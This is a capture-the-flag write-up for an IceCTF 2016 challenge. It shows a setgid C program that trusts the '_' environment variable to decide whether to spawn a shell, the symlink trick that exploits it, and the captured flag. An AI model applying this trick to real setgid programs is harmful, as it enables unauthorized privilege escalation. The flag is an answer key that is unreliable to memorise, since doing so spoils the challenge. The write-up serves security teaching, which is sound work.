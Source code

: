### Solved by superkojiman

Here's the source code for /home/demo/demo.c

```
$ cat  demo.c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <libgen.h>
#include <string.h>

void give_shell() {
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh");
}

int main(int argc, char *argv[]) {
    if(strncmp(basename(getenv("_")), "icesh", 6) == 0){
        give_shell();
    }
    else {
        printf("I'm sorry, your free trial has ended.\n");
    }
    return 0;
}
```

We can see that it checks if basename(getenv("_")) is equal to "icesh", and if it is, it gives us a shell. Easy way to solve it is just to symlink /home/demo/demo to ~/icesh

```
[ctf-87619@icectf-shell-2016 ~]$ ln -s /home/demo/demo icesh
[ctf-87619@icectf-shell-2016 ~]$ ./icesh
$ id
uid=1610(ctf-87619) gid=1007(demo) groups=1007(demo),1003(ctf)
$ cat /home/demo/flag.txt
IceCTF{wH0_WoU1d_3vr_7Ru5t_4rgV}
```
